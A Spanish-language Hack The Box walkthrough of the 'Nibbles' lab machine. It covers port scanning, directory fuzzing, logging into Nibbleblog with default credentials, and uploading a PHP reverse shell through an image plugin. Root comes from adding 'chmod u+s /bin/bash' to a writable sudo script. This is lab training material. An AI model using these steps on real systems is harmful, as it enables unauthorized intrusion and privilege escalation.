


## Información Básica

### Técnicas vistas

- Abusing Nibbleblog - Remote Code Execution via File Upload
- Abusing Sudoers Privilege [Privilege Escalation]

### Preparación

- eJPT

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.75 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.10.75`       | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p22,80 10.10.10.75 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.10.75`       | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Puerto 80


Si analizamos el código fuente de la página vemos lo siguiente:

```html wrap=false title='10.10.10.75'
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

## Nibble Blog



Si hacemos un poco de **fuzzing** sobre esta ruta vemos esto:

```bash wrap=false
❯ wfuzz -c -L --hc=404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt http://10.10.10.75/nibbleblog/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.75/nibbleblog/FUZZ
Total requests: 17129

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000007:   200        0 L      11 W       78 Ch       "install.php"                                                                                                          
000000001:   200        60 L     168 W      2984 Ch     "index.php"                                                                                                            
000000224:   200        7 L      15 W       300 Ch      "feed.php"                                                                                                             
000000011:   200        87 L     174 W      1621 Ch     "update.php"                                                                                                           
000000356:   200        10 L     13 W       401 Ch      "sitemap.php"                                                                                                          
000000371:   200        60 L     168 W      2984 Ch     "."                                                                                                                    
000000006:   200        675 L    5644 W     35148 Ch    "LICENSE.txt"                                                                                                          
000000039:   200        26 L     96 W       1401 Ch     "admin.php"    
```

Vemos un archivo `admin.php`, si nos metemos nos encontramos con un panel de login al que podemos acceder con las credenciales `admin:nibble`:



## Explotación

En el apartado de **plugins** vemos uno que se llama **My image** que nos permite subir un archivo. Aprovecharé para subir [php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php) para obtener una `reverse shell`. Podemos acceder a la imagen que hemos subido desde la siguiente ruta `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php`:

```bash wrap=false
nibbler@Nibbles:/$ whoami
nibbler
nibbler@Nibbles:/$ cd home
nibbler@Nibbles:/home$ ls
nibbler
nibbler@Nibbles:/home$ cd nibbler/
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt 
9bf8fe9a134d63de2...2
```

## Escalada de privilegios

Si usamos `sudo -l` para ver los privilegios **sudo** de el usuario que somos:

```bash wrap=false
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Dentro de la carpeta de el usuario, encontramos un zip llamado `personal.zip`, que si extraemos nos muestra dicho script. Vamos a ver que contiene y que permisos tiene:

```bash wrap=false
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Sep 25 12:37 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4035 Sep 25 12:37 monitor.sh
```

```bash wrap=false title='monitor.sh'
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

# clear the screen
clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
        case $name in
          i)iopt=1;;
          v)vopt=1;;
          *)echo "Invalid arg";;
        esac
done

if [[ ! -z $iopt ]]
then
{
wd=$(pwd)
basename "$(test -L "$0" && readlink "$0" || echo "$0")" > /tmp/scriptname
scriptname=$(echo -e -n $wd/ && cat /tmp/scriptname)
su -c "cp $scriptname /usr/bin/monitor" root && echo "Congratulations! Script Installed, now run monitor Command" || echo "Installation failed"
}
fi

if [[ ! -z $vopt ]]
then
{
echo -e "tecmint_monitor version 0.1\nDesigned by Tecmint.com\nReleased Under Apache 2.0 License"
}
fi

if [[ $# -eq 0 ]]
then
{


# Define Variable tecreset
tecreset=$(tput sgr0)

# Check if connected to Internet or not
ping -c 1 google.com &> /dev/null && echo -e '\E[32m'"Internet: $tecreset Connected" || echo -e '\E[32m'"Internet: $tecreset Disconnected"

# Check OS Type
os=$(uname -o)
echo -e '\E[32m'"Operating System Type :" $tecreset $os

# Check OS Release Version and Name
cat /etc/os-release | grep 'NAME\|VERSION' | grep -v 'VERSION_ID' | grep -v 'PRETTY_NAME' > /tmp/osrelease
echo -n -e '\E[32m'"OS Name :" $tecreset  && cat /tmp/osrelease | grep -v "VERSION" | cut -f2 -d\"
echo -n -e '\E[32m'"OS Version :" $tecreset && cat /tmp/osrelease | grep -v "NAME" | cut -f2 -d\"

# Check Architecture
architecture=$(uname -m)
echo -e '\E[32m'"Architecture :" $tecreset $architecture

# Check Kernel Release
kernelrelease=$(uname -r)
echo -e '\E[32m'"Kernel Release :" $tecreset $kernelrelease

# Check hostname
echo -e '\E[32m'"Hostname :" $tecreset $HOSTNAME

# Check Internal IP
internalip=$(hostname -I)
echo -e '\E[32m'"Internal IP :" $tecreset $internalip

# Check External IP
externalip=$(curl -s ipecho.net/plain;echo)
echo -e '\E[32m'"External IP : $tecreset "$externalip

# Check DNS
nameservers=$(cat /etc/resolv.conf | sed '1 d' | awk '{print $2}')
echo -e '\E[32m'"Name Servers :" $tecreset $nameservers 

# Check Logged In Users
who>/tmp/who
echo -e '\E[32m'"Logged In users :" $tecreset && cat /tmp/who 

# Check RAM and SWAP Usages
free -h | grep -v + > /tmp/ramcache
echo -e '\E[32m'"Ram Usages :" $tecreset
cat /tmp/ramcache | grep -v "Swap"
echo -e '\E[32m'"Swap Usages :" $tecreset
cat /tmp/ramcache | grep -v "Mem"

# Check Disk Usages
df -h| grep 'Filesystem\|/dev/sda*' > /tmp/diskusage
echo -e '\E[32m'"Disk Usages :" $tecreset 
cat /tmp/diskusage

# Check Load Average
loadaverage=$(top -n 1 -b | grep "load average:" | awk '{print $10 $11 $12}')
echo -e '\E[32m'"Load Average :" $tecreset $loadaverage

# Check System Uptime
tecuptime=$(uptime | awk '{print $3,$4}' | cut -f1 -d,)
echo -e '\E[32m'"System Uptime Days/(HH:MM) :" $tecreset $tecuptime

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
```

Teniendo permisos de escritura podemos añadir un `chmod u+s /bin/bash` para poder ejecutar **bash** como el usuario dueño, en este caso **root**. Simplemente ejecutamos el script y ya podremos hacer:

```bash wrap=false
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt 
cc508a6206bfa32a1...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/121)

---